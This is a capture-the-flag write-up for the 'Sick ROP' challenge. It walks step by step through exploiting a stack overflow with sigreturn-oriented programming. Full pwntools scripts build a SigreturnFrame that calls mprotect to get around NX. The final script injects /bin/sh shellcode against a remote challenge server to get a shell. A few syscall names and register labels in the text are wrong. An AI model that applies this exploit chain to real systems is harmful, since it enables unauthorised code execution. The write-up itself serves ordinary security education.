 # Sick ROP 

## 1. Information gathering
Bin doesn't seem to be complicated, it only has its _start and vuln() function with read and write helpers.

![objdump](pix/objdump.PNG)

Also NX there is enabled..  
![checksec](pix/checksec.PNG)  
So we cannot execute own shellcode from stack.  
  

By running binary with GDB we can see that there is overflow which will cause SEG fault  
![segfault](pix/seg_fault.PNG)  

With pattern create 100/offset we see that overflow occurs after 40b and something to notice: RAX holds exactly our 100 + \n length (0x65).  
Therefore we are able to control RSB (stack pointer) and RAX (return value) so may be able to do some rop chaining here.  

## 2. Testing theory 
Using pwntools with python, we can write code to test if we are able to control RIP by setting offset + vuln function address + new RIP:  
```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"AAAAA")
p.recv(timeout=1)
p.interactive()
```

![rip](pix/rip_controlled.PNG)  
Here we can see that totally can control RIP with this.  
But to be able to execute shellcode with rop chaining, we need 2 main gadgets: sigreturn syscall and syscall return.  

![gadgets](pix/gadgets.PNG)  
Here we see syscall; ret; address 0x401014  
As we seen before, we were able to control RAX value which is needed to call sigreturn syscall:
```
sigreturn syscall gadget: rax=0xf; syscall
```  
By changing our code to:

```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
We can see that our RAX value is now indeed 0xf (mtproctect syscall).


## 3. Building ROP chain

Next for building SigreturnFrame, we need couple more things: base address of bin and vuln() functions PTR, base address can be founded with GDB: vmmap  
![baseaddr](pix/base_addr.PNG)  
and vuln functions pointer with gdb find VULN_ADDR  
![vulnptr](pix/vuln_ptr.PNG)  

Now we can build our mtprotect call:  
```
from pwn import *
p = process(['gdb-peda', './sick_rop'])
context.arch = "amd64"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.interactive()
p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
![run](pix/rwxp.PNG)  
Here we can now see that NX is bypassed! 
We also passed some A chars which we can see has ptr as: 0x4010b8 where our shellcode will be placed!  
Next we need shellcode, I will use shellstroms 23B shellcode for this, next we just build this all up:  
```
from pwn import *
#p = process(['gdb-peda','./sick_rop'])
p = remote("159.65.27.79",32030)
context.arch = "amd64"

# shellcode, length 23B
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)

p.sendline(shellcode + b'\x90' * (40-len(shellcode)) + p64(0x4010b8))
p.recv()
p.interactive()
```

![flag](pix/flag.PNG)  
And there we have it!



